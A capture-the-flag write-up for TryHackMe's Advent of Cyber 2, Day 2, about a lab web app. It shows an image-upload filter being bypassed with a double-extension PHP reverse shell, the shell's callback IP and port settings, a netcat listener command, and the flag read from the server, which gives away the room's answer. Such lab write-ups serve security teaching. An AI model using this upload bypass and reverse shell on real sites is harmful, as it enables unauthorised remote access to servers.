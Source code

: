 ```yaml
---
title: AdventOfCyber2 Day 2
template: "post"
date: "2020-12-02"
draft: false
category: "Write-Ups, AdventOfCyber2"
tags:
  - "TryHackMe, AdventOfCyber2"
  - "Python"
social-image: "/media/adventOfCyber2/icon.png"
description: "It's a write-up about the room : [Try Hack Me - Room : AdventOfCyber2](https://tryhackme.com/room/adventofcyber2)"
---
```


It's a write-up about the room : [Try Hack Me - Room : AdventOfCyber2](https://tryhackme.com/room/adventofcyber2)

# Day 2 : The Elf Strikes Back !

```
At the bottom of the dossier is a sticky note containing the following 
message:

    For Elf McEager:
    You have been assigned an ID number for your audit of the system: 
	ODIzODI5MTNiYmYw . Use this to gain access to the upload section of 
	the site.
    Good luck!
```

We deploy the machine, obtain the IP address : `10.10.4.190`

## What string of text needs adding to the URL to get access to the upload page?

We navigate tot the displayed IP address inn our browser and access to the upload page by adding this string to the URL : 
`/?id=ODIzODI5MTNiYmYw` because our ID is ODIzODI5MTNiYmYw.

## What type of file is accepted by the site? 
`<input type="file" id="chooseFile" accept=".jpeg,.jpg,.png">`
**image**

## Now we have to bypass the filter and upload a reverse shell.

* In which directory are the uploaded files stored?

We use the file **php-reverse-shell.php** and rename it **php-reverse-shell.jpeg.php**.
In this one, we put our IP OpenVPN address and the port where we want to listen : 
```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.87.25';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We submit it in the website, and go on `http://10.10.4.190/uploads/` and find our file.  
So the uploaded files are stored in **/uploads/**.

## What is the flag in /var/www/flag.txt?

We listen our port with the command : `sudo nc -lvnp 443`
We launch our file in the directory `/uploads/` on the website. 
We can now execute shell command, so we do that below to find the flag : 

```
sh-4.4$ cat /var/www/flag.txt  
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.